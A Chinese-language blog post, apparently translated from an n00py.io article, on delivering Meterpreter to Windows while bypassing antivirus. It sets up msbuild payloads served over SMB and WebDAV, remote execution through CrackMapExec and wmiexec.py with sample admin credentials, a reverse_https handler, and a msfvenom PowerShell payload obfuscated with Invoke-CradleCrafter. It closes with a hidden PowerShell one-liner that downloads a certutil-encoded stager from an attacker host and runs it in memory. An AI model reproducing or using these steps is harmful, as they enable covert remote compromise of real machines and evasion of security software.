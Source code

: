 ```yaml
---
layout:     post
title:      使用Meterpreter的多种姿势
date:       2019-1-5
author:     Wh0ale
header-img: img/meterpreter.jpg
catalog: true
tags:
    - bypass
---
```


# Meterpreter Bypassing AntiVirus

## 一、nps_payload

安装：

```
git clone https://github.com/trustedsec/nps_payload.git
cd nps_payload/
pip install -r requirements.txt
python nps_payload.py
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyuu1u8ahqj20z40leq6c.jpg)

>1. Run "msfconsole -r msbuild_nps.rc" to start listener.
>2. Choose a Deployment Option (a or b): - See README.md for more information.
>     a. Local File Deployment:
>
>    - %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe <folder_path_here>\msbuild_nps.xml
>  b. Remote File Deployment:
>
>    - wmiexec.py <USER>:'<PASS>'@<RHOST> cmd.exe /c start %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attackerip>\<share>\msbuild_nps.xml
>
>3. Hack the Planet!!

开启SMB共享

```
apt-get install samba
cd /etc/samba/
vi smb.conf
```

```
添加
[Guest]
        comment = Guest
        path = /tmp/share/
        browseable = yes
        read only = yes
        guest ok = yes
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyuuf146znj20jn03qmx7.jpg)

连接：

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvhxyqqt1j20rx0g0wg2.jpg)

smb只能在内网共享，所以我想在公网使用没成功。

```
mkdir /tmp/share
cp ~/nps_payload/msbuild_nps.xml /tmp/share/
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyuuhvbjlqj20hd04c3yy.jpg)

开启msfconsole监听：

```
msfconsole
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_https
msf exploit(handler) > set lhost 192.168.xxx.xxx
msf exploit(handler) > set lport 443
msf exploit(handler) > exploit -j
```



三种方式获得shell

①与主机有RDP连接，只需将此命令粘贴到命令提示符

```
%windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe <folder_path_here>\msbuild_nps.xml
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvin22ys2j20oy03374c.jpg)

②CrackMapExec

```
crackmapexec smb 192.168.137.1 -u Administrator -p Password123 -x '%windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\192.168.137.133\Guest\msbuild_nps.xml'
```

③mpacket’s wimiexec.py

```
python wmiexec.py Adminstrator:Password123@192.168.137.1 cmd.exe /c start %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\192.168.137.133\Guest\msbuild_nps.xml
```

在测试时，我在执行这些操作时遇到了一些麻烦。因此，我想到了一种更好的方式来交付有效载荷而不是使用SMB。我决定使用[WebDAV](https://en.wikipedia.org/wiki/WebDAV)。为何选择WebDAV？这是UNC路径的有趣之处。Windows将首先尝试通过端口445通过SMB访问主机。如果不能，它将尝试在端口80上使用WebDAV。这有用的原因有以下几点：

1. SMB通常在防火墙处被阻止。如果我们想从远程系统中提取有效负载，这可能不起作用，因为端口445被阻止。
2. 从CrackMapExec版本4开始，它需要在端口445上运行的SMB服务器才能执行命令。我们不能同时在同一主机上使用我们的Samba共享和CME。
3. 如果担心基于网络的检测，WebDAV也可以通过HTTPS。

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyuun466tzj20kx0ibq4x.jpg)

有很多方法可以设置WebDAV服务器。虽然您可以使用Apache，但我选择使用名为[WsgiDAV](https://wsgidav.readthedocs.io/en/latest/)的python工具为我创建一个。

只需输入以下内容即可通过pip安装它：

```
pip install WsgiDAV
```

要使用它，请运行命令：

```
`pip install wsgidav cheroot``wsgidav --host=0.0.0.0 --port=80 --root=/tmp`
```

对于此示例，我将有效负载放在名为“ *test* ” 的文件夹中的*/ tmp /*目录中。

要远程执行有效负载，我们运行一个非常相似的命令：

CrackMapExec：

```
crackmapexec smb 192.168.137.1 -u Administrator -p Password123 -x '%windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\192.168.137.134\Davwwwroot\test\msbuild_nps.xml'
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvio52j9zj20oq02tglq.jpg)

Impacket的wimiexec.py：

```
python wmiexec.py Administrator:Password123@192.168.137.1
C:\>%windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\192.168.137.134\Davwwwroot\test\msbuild_nps.xml
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyviok4f3ej20od03874f.jpg)



有了它，我们现在无需使用SMB即可在目标上执行无文件执行。没有任何内容写入磁盘，没有SMB流量出站，并完全逃避反病毒软件。

**注意**：重启Kali Linux后，我在Windows主机上连接到Kali上的WebDAV服务器时出现问题。要修复它，我只是启动并停止了Samba。



## 二、使用CertUtil.exe进行内存中注入

[Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)是PowerShell v2.0 +兼容的PowerShell远程下载底座生成器和混淆器。

我将讨论使用PowerShell，Invoke-CradleCrafter和Microsoft的Certutil.exe来制作有效载荷和单行程序的步骤，这些程序可用于规避最新版本的Windows Defender（截至撰写本文时），以及作为不被入侵检测系统和行为分析捕获的提示。毕竟，PowerShell仍然是获得立足点的最简单和最好的方法之一，但与此同时它正在把你卖掉，因为它会在AMSI运行后立即与AMSI对话，这会让事情变得有点挑战。这种方法的优点在于，Microsoft的certutil会将网络调用到你的主要负载，同时看起来是一个无辜的小证书文件，而不是您的标准PowerShell Invoke-Shellcode摇篮。

**设置要求：** Linux，Metasploit，Invoke-CradleCrafter，适用于Linux的PowerShell和Windows 10. 
安装[适用于Linux](https://github.com/PowerShell/PowerShell)和[Metasploit的](https://github.com/rapid7/metasploit-framework)[PowerShell](https://github.com/PowerShell/PowerShell)。

当我这样做时，我更喜欢在Linux上运行PowerShell，因此Defender不会绊倒。[从GitHub下载Invoke-CradleCrafter。](https://github.com/danielbohannon/Invoke-CradleCrafter.git)

接下来，我们将通过执行以下操作创建base64编码的PowerShell Meterpreter有效负载：

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<YOUR IP HERE> LPORT=443 -e cmd/powershell_base64 -f psh -o load.txt
```

**请注意**，只要certutil可以获取并阅读其内容，有效负载文件的扩展名就可以是任何内容。例如，组织可能具有不允许下载脚本的策略（或IDS，内容过滤器等），但是它们可能允许.txt文件甚至具有异常扩展的文件。如果您更改它，只需确保在Invoke-CradleCrafter中设置URL时进行补偿（见下文）。

接下来，您将创建一个用于提供Web内容的文件夹。在此示例中，我们将调用文件夹有效内容。将PowerShell Meterpreter PowerShell脚本放在此文件夹中。

接下来，我们将使用Invoke-CradleCrafter来模糊我们的certutil和PowerShell命令，这些命令将用于执行绕过Defender的内存中注入。

通过键入pwsh或powershell，在Linux主机上进入PowerShell提示符。进入后**，**进入您的Invoke-CradleCrafter目录并运行以下命令：

```powershell
Import-Module .\Invoke-CradleCrafter.psd1
Invoke-CradleCrafter
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvj7h4f15j20h40ls41r.jpg)

```
SET URL http://192.168.211.179/load.txt
下一步键入MEMORY，然后键入CERTUTIL：
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvj9bce27j20h40pcaf3.jpg)

接下来，您将看到您的混淆选项。我通常选择**All**然后输入**1**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvj9guau3j20hm0irwhl.jpg)

获得结果后，将其放在Windows计算机上名为raw.txt的文件中。您将使用certutil在base64中对此文件进行编码，以创建名为cert.cer的文件并将其放在Web服务器上。然后，我们将构建一个单行程，将远程调用以下拉该文件并将其在目标上执行。一旦执行，它将调用我们的有效负载load.txt并通过PowerShell将Meterpreter注入内存。 

使用certutil对raw.txt文件进行编码：

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvjbn6tbgj20r80arjsa.jpg)

```
One-liner:

powershell.exe -Win hiddeN -Exec ByPasS add-content -path %APPDATA%\cert.cer (New-Object Net.WebClient).DownloadString('http://192.168.211.179/cert.cer'); certutil -decode %APPDATA%\cert.cer %APPDATA%\stage.ps1 & start /b cmd /c powershell.exe  -Exec Bypass -NoExit -File %APPDATA%\stage.ps1 & start /b cmd /c del %APPDATA%\cert.cer
```



被火绒杀了...想法很好但是没实现，算是拓宽了思维了。





Reference：

[https://www.n00py.io/2018/06/executing-meterpreter-in-memory-on-windows-10-and-bypassing-antivirus-part-2/](https://www.n00py.io/2018/06/executing-meterpreter-in-memory-on-windows-10-and-bypassing-antivirus-part-2/)




